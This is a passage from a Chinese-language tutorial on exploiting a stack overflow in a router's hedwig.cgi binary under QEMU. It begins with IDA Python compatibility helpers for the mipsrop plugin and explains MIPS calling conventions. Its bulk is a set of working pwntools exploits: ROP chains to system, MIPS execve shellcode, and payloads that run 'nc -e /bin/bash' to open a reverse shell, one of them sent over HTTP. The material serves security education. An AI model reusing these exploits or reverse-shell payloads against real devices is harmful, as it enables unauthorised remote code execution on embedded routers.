    fn = _get_fn_by_version(ida_kernwin, 'ask_file', 'AskFile', idc)
    return fn(for_saving, default, dialog)


def get_func_attr(ea, attr):
    fn = _get_fn_by_version(idc, 'get_func_attr', 'GetFunctionAttr')
    return fn(ea, attr)


def get_name_ea_simple(name):
    fn = _get_fn_by_version(idc, 'get_name_ea_simple', 'LocByName')
    return fn(name)


def next_head(ea, maxea=4294967295):
    fn = _get_fn_by_version(idc, 'next_head', 'NextHead')
    return fn(ea, maxea)


def get_screen_ea():
    fn = _get_fn_by_version(idc, 'get_screen_ea', 'ScreenEA')
    return fn()


def choose_func(title):
    fn = _get_fn_by_version(idc, 'choose_func', 'ChooseFunction')
    return fn(title)


def ask_ident(default, prompt):
    fn = _get_fn_by_version(ida_kernwin, 'ask_str', 'AskIdent', idc)
    if idaapi.IDA_SDK_VERSION >= 700:
        return fn(default, ida_kernwin.HIST_IDENT, prompt)
    return fn(default, prompt)


def set_name(ea, name):
    fn = _get_fn_by_version(idc, 'set_name', 'MakeName')
    if idaapi.IDA_SDK_VERSION >= 700:
        return fn(ea, name, ida_name.SN_CHECK)
    return fn(ea, name)


def get_wide_dword(ea):
    fn = _get_fn_by_version(idc, 'get_wide_dword', 'Dword')
    return fn(ea)


def get_strlit_contents(ea):
    fn = _get_fn_by_version(idc, 'get_strlit_contents', 'GetString')
    return fn(ea)


def get_func_name(ea):
    fn = _get_fn_by_version(idc, 'get_func_name', 'GetFunctionName')
    return fn(ea)


def get_first_seg():
    fn = _get_fn_by_version(idc, 'get_first_seg', 'FirstSeg')
    return fn()


def get_segm_attr(segea, attr):
    fn = _get_fn_by_version(idc, 'get_segm_attr', 'GetSegmentAttr')
    return fn(segea, attr)


def get_next_seg(ea):
    fn = _get_fn_by_version(idc, 'get_next_seg', 'NextSeg')
    return fn(ea)


def is_strlit(flags):
    fn = _get_fn_by_version(ida_bytes, 'is_strlit', 'isASCII', idc)
    return fn(flags)


def create_strlit(start, lenth):
    fn = _get_fn_by_version(ida_bytes, 'create_strlit', 'MakeStr', idc)
    if idaapi.IDA_SDK_VERSION >= 700:
        return fn(start, lenth, ida_nalt.STRTYPE_C)
    return fn(start, idc.BADADDR)


def is_unknown(flags):
    fn = _get_fn_by_version(ida_bytes, 'is_unknown', 'isUnknown', idc)
    return fn(flags)


def is_byte(flags):
    fn = _get_fn_by_version(ida_bytes, 'is_byte', 'isByte', idc)
    return fn(flags)


def create_dword(ea):
    fn = _get_fn_by_version(ida_bytes, 'create_data', 'MakeDword', idc)
    if idaapi.IDA_SDK_VERSION >= 700:
        return fn(ea, ida_bytes.FF_DWORD, 4, idaapi.BADADDR)
    return fn(ea)


def op_plain_offset(ea, n, base):
    fn = _get_fn_by_version(idc, 'op_plain_offset', 'OpOff')
    return fn(ea, n, base)


def next_addr(ea):
    fn = _get_fn_by_version(ida_bytes, 'next_addr', 'NextAddr', idc)
    return fn(ea)


def can_decode(ea):
    fn = _get_fn_by_version(ida_ua, 'can_decode', 'decode_insn', idaapi)
    return fn(ea)


def get_operands(insn):
    if idaapi.IDA_SDK_VERSION >= 700:
        return insn.ops
    return idaapi.cmd.Operands


def get_canon_feature(insn):
    if idaapi.IDA_SDK_VERSION >= 700:
        return insn.get_canon_feature()
    return idaapi.cmd.get_canon_feature()


def get_segm_name(ea):
    fn = _get_fn_by_version(idc, 'get_segm_name', 'SegName')
    return fn(ea)


def add_func(ea):
    fn = _get_fn_by_version(ida_funcs, 'add_func', 'MakeFunction', idc)
    return fn(ea)


def create_insn(ea):
    fn = _get_fn_by_version(idc, 'create_insn', 'MakeCode')
    return fn(ea)


def get_segm_end(ea):
    fn = _get_fn_by_version(idc, 'get_segm_end', 'SegEnd')
    return fn(ea)


def get_segm_start(ea):
    fn = _get_fn_by_version(idc, 'get_segm_start', 'SegStart')
    return fn(ea)


def decode_insn(ea):
    fn = _get_fn_by_version(ida_ua, 'decode_insn', 'decode_insn', idaapi)
    if idaapi.IDA_SDK_VERSION >= 700:
        insn = ida_ua.insn_t()
        fn(insn, ea)
        return insn
    fn(ea)
    return idaapi.cmd


def get_bookmark(index):
    fn = _get_fn_by_version(idc, 'get_bookmark', 'GetMarkedPos')
    return fn(index)


def get_bookmark_desc(index):
    fn = _get_fn_by_version(idc, 'get_bookmark_desc', 'GetMarkComment')
    return fn(index)


def set_color(ea, what, color):
    fn = _get_fn_by_version(idc, 'set_color', 'SetColor')
    return fn(ea, what, color)


def msg(message):
    fn = _get_fn_by_version(ida_kernwin, 'msg', 'Message', idc)
    return fn(message)


def get_highlighted_identifier():
    fn = _get_fn_by_version(ida_kernwin, 'get_highlight',
                            'get_highlighted_identifier', idaapi)

    if idaapi.IDA_SDK_VERSION >= 700:
        viewer = ida_kernwin.get_current_viewer()
        highlight = fn(viewer)
        if highlight and highlight[1]:
            return highlight[0]
    return fn()


def start_ea(obj):
    if not obj:
        return None

    try:
        return obj.startEA
    except AttributeError:
        return obj.start_ea


def end_ea(obj):
    if not obj:
        return None

    try:
        return obj.endEA
    except AttributeError:
        return obj.end_ea


def set_func_flags(ea, flags):
    fn = _get_fn_by_version(idc, 'set_func_attr', 'SetFunctionFlags')
    if idaapi.IDA_SDK_VERSION >= 700:
        return fn(ea, idc.FUNCATTR_FLAGS, flags)
    return fn(ea, flags)


def get_func_flags(ea):
    fn = _get_fn_by_version(idc, 'get_func_attr', 'GetFunctionFlags')
    if idaapi.IDA_SDK_VERSION >= 700:
        return fn(ea, idc.FUNCATTR_FLAGS)
    return fn(ea)

```

之后在idapython输入框中输入：

```
import mipsrop
mipsrop = mipsrop.MIPSROPFinder()
```

然后输入`mipsrop.find("")`即可查询可用的gadget：



下面主要来介绍一些常见的`MIPS`架构的特性（`32`位`mipsel`）。

​

### 叶子函数与非叶子函数

叶子函数指的是**没有调用任何子函数的函数**，其返回地址会存放在`$ra`寄存器中，在该函数结束时，**直接就通过**`$ra`**寄存器跳转返回**。

非叶子函数自然就是指**其中调用了其他子函数的函数**，其返回地址`$ra`会在程序开始（`prologue`）**通过**`sw`**指令存放在栈上**，因为其中调用了其他子函数，肯定会需要改变`$ra`寄存器的值，来作为其他子函数的返回地址，所以最先的数据需要保存下来，然后在该函数结束（`epilogue`）时，再**对应地通过**`lw`**指令取出**，并跳转返回。

同样的道理，如果在某个函数中使用到了 `$s0 ~ $s7`**中的某些保存寄存器（包括**`$fp`**）** ，则也会在`prologue`处保存下来，并在`epilogue`处取出。

需要注意的是，`$s0 ~ $s7, $fp, $sp`在栈中存放的地址**依次递增**，因此，很容易想到，我们可以在栈溢出的同时，顺带着**控制到**`$s0 ~ $s7`**的值**。

`MIPS`的这个特性是一个在栈溢出中很好利用的点，若是二进制文件中没有或没有完整的`prologue/epilogue`段，**在**`libc`**的**`scandir/scandir64`**中**可以找到完整的汇编段，来控制这所有的寄存器：



最后，都会通过`addiu $sp, ...`的命令，将栈抬高到`$ra`后面的位置。

### 流水线指令集相关特性

`MIPS`架构存在“流水线效应”，简单来说，就是本应该顺序执行的几条命令却同时执行了，其还存在缓存不一致性（`cache incoherency`）的问题。

首先举例说说 **“流水线效应”** ，最常见的就是跳转指令（如`jalr`）导致的**分支延迟效应**，任何一个分支跳转语句后面的那条语句叫做**分支延迟槽**，当它跳转指令填充好跳转地址，还没来得及跳转过去的时候，跳转指令的下一条指令（分支延迟槽）就已经执行了，可以认为是**它会先执行跳转指令的后一条指令，然后再跳转**。

再来说说 **“缓存不一致性”** 的问题，指的是：指令缓存区（`Instruction Cache`）和数据缓存区（`Data Cache`）两者的同步需要一个时间来同步，常见的就是，比如我们将`shellcode`写入栈上，此时这块区域还属于数据缓存区，如果我们此时像`x86_64`架构一样，直接跳转过去执行，就会出现问题，因此，我们**需要调用**`sleep`**函数**，先停顿一段时间，给它时间从数据缓存区转成指令缓存区，然后再跳转过去，才能成功执行。当然，有时候可能直接跳转过去也不会出错，这原因就比较多了，可能是由于两个缓冲区已经有足够时间同步，也有可能是和硬件层面有关的一些原因所导致的，但是保险来说，还是最好`sleep`一下。

接着，笔者再介绍一些构造`ROP`链的常用技巧：

## 动态调试用户模式

在系统文件目录下

首先执行`cyclic 2000>payload`后，编辑如下脚本`exp.sh`，并执行

```
#!/bin/bash

INPUT="winmt=pwner"
LEN=$(echo -n "$INPUT" | wc -c)
cookie="uid=`cat payload`"

echo $INPUT | qemu-mipsel -L ./ -0 "hedwig.cgi" -E REQUEST_METHOD="POST" -E CONTENT_LENGTH=$LEN -E CONTENT_TYPE="application/x-www-form-urlencoded" -E HTTP_COOKIE=$cookie -E REQUEST_URI="2333" -g 1234 ./htdocs/cgibin

```

这里的`cat payload`，可以将`payload`文件中的内容读到`uid=`之后，然后`echo $INPUT |`可以做到`POST`的效果，`-0`就是`argv[0]`，`-E`就是设置的环境变量，`-g`是连上端口

接着使用 `gdb-multiarch htdocs/cgibin`启动，然后依次输入

```
set architecture mips
tar rem :1234
b *0x0409A54
c
```

断在`hedwigcgi_main`的返回处

接着判断溢出空间，找到偏移量



以及获取 `libc_base`


### 纯ROP链

这里是`system`地址末两位是`\x00`，而`sprintf`会被`\x00`截断，因此这里采用的方法是：**读进去**`system_addr - 1`**，再找到**`addiu ..., 1`**的**`gadget`**对其操作后再跳转过去**。

```
from pwn import *
context(os = 'linux', arch = 'mips', log_level = 'debug')
 
libc_base = 0x7F738000
 
payload = b'a'*0x3cd
payload += p32(libc_base + 0x53200 - 1) # s0  system_addr - 1
payload += p32(libc_base + 0x159F4) # s1  move $t9, $s0 (=> jalr $t9)
payload += b'a'*4
payload += p32(libc_base + 0x6DFD0) # s3  /bin/sh
payload += b'a'*(4*2)
payload += p32(libc_base + 0x32A98) # s6  addiu $s0, 1 (=> jalr $s1)
payload += b'a'*(4*2)
payload += p32(libc_base + 0x13F8C) # ra  move $a0, $s3 (=> jalr $s6)
 
payload = b"uid=" + payload
post_content = "winmt=pwner"
io = process(b"""
    qemu-mipsel -L ./ \
    -0 "hedwig.cgi" \
    -E REQUEST_METHOD="POST" \
    -E CONTENT_LENGTH=11 \
    -E CONTENT_TYPE="application/x-www-form-urlencoded" \
    -E HTTP_COOKIE="""" + payload + b"""" \
    -E REQUEST_URI="2333" \
    ./htdocs/cgibin
""", shell = True)
io.send(post_content)
io.interactive()
```

​

这个脚本的`ROP`链构造没什么问题，**但是在用户模式下是打不通的**，原因是这里的`system`函数中有调用`fork()`函数，而用户模式是不支持多线程的，这里`fork()`的失败，会导致后面`$fp`是个空指针，就会出错，之后在系统模式打就不会出问题了。

在`system`函数中：



最后，会卡在这里：



### ROP + shellcode

这里需要注意**让**`shellcode`**中不能存在**`\x00`**等坏字符**，导致`sprintf`被截断。

**先调用了**`sleep`**函数**，先停顿一段时间，给它时间从数据缓存区转成指令缓存区，然后再跳转过去，才能成功执行

这个脚本肯定是可以成功打通的。

```
from pwn import *
context(os = 'linux', arch = 'mips', log_level = 'debug')
 
libc_base = 0x7F738000
 
payload = b'a'*0x3cd
payload += b'a'*4
payload += p32(libc_base + 0x436D0) # s1  move $t9, $s3 (=> lw... => jalr $t9)
payload += b'a'*4
payload += p32(libc_base + 0x56BD0) # s3  sleep
payload += b'a'*(4*5)
payload += p32(libc_base + 0x57E50) # ra  li $a0, 1 (=> jalr $s1)
 
payload += b'a'*0x18
payload += b'a'*(4*4)
payload += p32(libc_base + 0x37E6C) # s4  move  $t9, $a1 (=> jalr $t9)
payload += p32(libc_base + 0x3B974) # ra  addiu $a1, $sp, 0x18 (=> jalr $s4)
 
shellcode = asm('''
    slti $a2, $zero, -1
    li $t7, 0x69622f2f
    sw $t7, -12($sp)
    li $t6, 0x68732f6e
    sw $t6, -8($sp)
    sw $zero, -4($sp)
    la $a0, -12($sp)
    slti $a1, $zero, -1
    li $v0, 4011
    syscall 0x40404
''')
payload += b'a'*0x18
payload += shellcode
 
payload = b"uid=" + payload
post_content = "iam0range=ooo"
io = process(b"""
    qemu-mipsel -L ./ \
    -0 "hedwig.cgi" \
    -E REQUEST_METHOD="POST" \
    -E CONTENT_LENGTH=11 \
    -E CONTENT_TYPE="application/x-www-form-urlencoded" \
    -E HTTP_COOKIE="""" + payload + b"""" \
    -E REQUEST_URI="2333" \
    ./htdocs/cgibin
""", shell = True)
io.send(post_content)
io.interactive()
```

## 在系统模式下

### 方法一： 将生成的 payload 传给 qemu 机

这种方式其实是**不需要用**`httpd -f http_conf`**启动**`httpd`**服务的**，就是在`Ubuntu`物理机中将`payload`传给`qemu`虚拟机，然后在`qemu`中打`payload`并反弹`shell`给物理机。

首先，我们还是得确定`libc_base`，这里要用到`gdbserver`（[项目地址](https://bbs.kanxue.com/elink@370K9s2c8@1M7s2y4Q4x3@1q4Q4x3V1k6Q4x3V1k6Y4K9i4c8Z5N6h3u0Q4x3X3g2U0L8$3#2Q4x3V1k6J5j5i4m8A6k6o6N6Q4x3V1k6W2L8h3u0W2k6r3c8W2k6q4)9J5k6s2c8G2L8$3I4K6i4K6u0r3N6s2u0W2k6g2)9J5c8X3#2S2M7%4c8W2M7W2)9J5c8X3u0A6L8X3q4J5K9h3g2K6i4K6u0r3k6$3c8T1M7$3g2J5N6X3g2J5)），下载对应的`gdbserver.mipsel`即可，然后将其传到`qemu`中，在`qemu`中用以下`run.sh`脚本启动：

```
#!/bin/bash
export CONTENT_LENGTH="11"
export CONTENT_TYPE="application/x-www-form-urlencoded"
export HTTP_COOKIE="uid=`cat payload`"
export REQUEST_METHOD="POST"
export REQUEST_URI="2333"
echo "orange=pwner"|./gdbserver.mipsel 192.168.100.2:6666 /htdocs/web/hedwig.cgi

unset CONTENT_LENGTH
unset CONTENT_TYPE
unset HTTP_COOKIE
unset REQUEST_METHOD
unset REQUEST_URI
```

这里的`192.168.100.2`是`qemu`虚拟机或者宿主机配置网卡的`IP`都可以，`6666`是自己设置的连接的端口，直接用`gdb-multiarch`设置好架构后，用`target remote IP:6666`连上即可，然后直接`vmmap`就能拿到`libc_base`，至于栈溢出的偏移，仍然用`cyclic`不再多说了。



这里直接用`winmt`师傅的 `exp`了

直接宿主机执行，将`payload`传进去，执行`run.sh`即可

```
from pwn import *
context(os = 'linux', arch = 'mips', log_level = 'debug')

cmd = b'nc -e /bin/bash 192.168.192.131 8888'

libc_base = 0x77f34000

payload = b'a'*0x3cd
payload += p32(libc_base + 0x53200 - 1) # s0  system_addr - 1
payload += p32(libc_base + 0x169C4) # s1  addiu $s2, $sp, 0x18 (=> jalr $s0)
payload += b'a'*(4*7)
payload += p32(libc_base + 0x32A98) # ra  addiu $s0, 1 (=> jalr $s1)
payload += b'a'*0x18
payload += cmd

fd = open("payload", "wb")
fd.write(payload)
fd.close()
```

需要注意的是，得先执行`nc -lvnp 8888`开启监听，再打`payload`。

### 方法二： 直接发送http报文

我们之前开启`httpd`服务，就是为了这种打`exp`的方式，直接发送数据包给之前`http_conf`配置文件中设置的`192.168.192.133:1234`即可。

**纯ROP链**

```
from pwn import *
import requests
context(os = 'linux', arch = 'mips', log_level = 'debug')

cmd = b'nc -e /bin/bash 192.168.111.139 8888' # 这里是Ubuntu物理机的地址

libc_base = 0x77f34000

payload = b'a'*0x3cd
payload += p32(libc_base + 0x53200 - 1) # s0  system_addr - 1
payload += p32(libc_base + 0x169C4) # s1  addiu $s2, $sp, 0x18 (=> jalr $s0)
payload += b'a'*(4*7)
payload += p32(libc_base + 0x32A98) # ra  addiu $s0, 1 (=> jalr $s1)
payload += b'a'*0x18
payload += cmd

url = "http://192.168.100.2:1234/hedwig.cgi" # 这里是qemu虚拟机的地址
data = {"XiDP" : "pwner"}
headers = {
    "Cookie"        : b"uid=" + payload,
    "Content-Type"  : "application/x-www-form-urlencoded",
    "Content-Length": "10"
}
res = requests.post(url = url, headers = headers, data = data)
print(res)
```

成功打通结果如下



参考链接

<https://bbs.kanxue.com/thread-272318.htm>

<https://www.cnblogs.com/unr4v31/p/16072562.html>

​

​
